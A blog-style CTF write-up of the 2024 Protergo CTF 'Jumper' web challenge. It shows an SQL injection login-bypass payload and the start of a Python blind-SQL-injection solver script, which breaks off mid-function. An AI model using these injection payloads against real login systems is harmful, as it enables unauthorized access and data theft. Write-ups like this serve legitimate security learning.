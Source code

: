 ```yaml
---
title: Protergo CTF
author: araisantai
date: 2024-02-08 00:00:00 +/-TTTT
categories: [CTFs Archive, 2024 CTF]
tags: [CTFs]     # TAG names should always be lowercase
comments: true
toc: true
mermaid: true
img_path: /protergo%20ctf
---
```

# Protergo CTF

2024 Protergo CTF, 7 Days CTF Challenges by Protergo
- Tags: national
- Status: Done
- pwned: 3

## Jumper

`url : tokyo.ctf.protergo.party:10002`
### Analyze
Given a web service containing a simple login page. By performing a simple SQL injection bypass, we successfully bypassed the login using the payload `' or 1=1 -- -`.

![Protergo%20CTF%20a0136568816c40fea9a8d66ccba3460f/Untitled.png](Protergo%20CTF%20a0136568816c40fea9a8d66ccba3460f/Untitled.png)

This redirected us to the dashboard.

![Protergo%20CTF%20a0136568816c40fea9a8d66ccba3460f/Untitled%201.png](Protergo%20CTF%20a0136568816c40fea9a8d66ccba3460f/Untitled%201.png)

From here, I performed blind SQL injection to dump the table. The request flow is as follows: the website generates a token, which is then used to post login data, so we need to retrieve the token every time we send a query.

![Protergo%20CTF%20a0136568816c40fea9a8d66ccba3460f/Untitled%202.png](Protergo%20CTF%20a0136568816c40fea9a8d66ccba3460f/Untitled%202.png)

From there, it's just a matter of creating the following simple script.
### Solver
```python
import requests
import re
import base64

url = "http://tokyo.ctf.protergo.party:10002/"
cookie = {"laravel_session":"w8DdHi4IgwEMV5lWoKnppOOxWgH5nGBXVYGZDddb;"}
payload = {"username": "asd' -- -",
          "password":"asd' -- -"}

def get_token():
    token = url +  "api/token"
    res = requests.get(token, cookies=cookie)
    return res.json()['data']['token']

def check2(data):
   print(data.text)
   return re.search("true", data.text)

def blind(kolom,table):
   login = url + "api/login"
```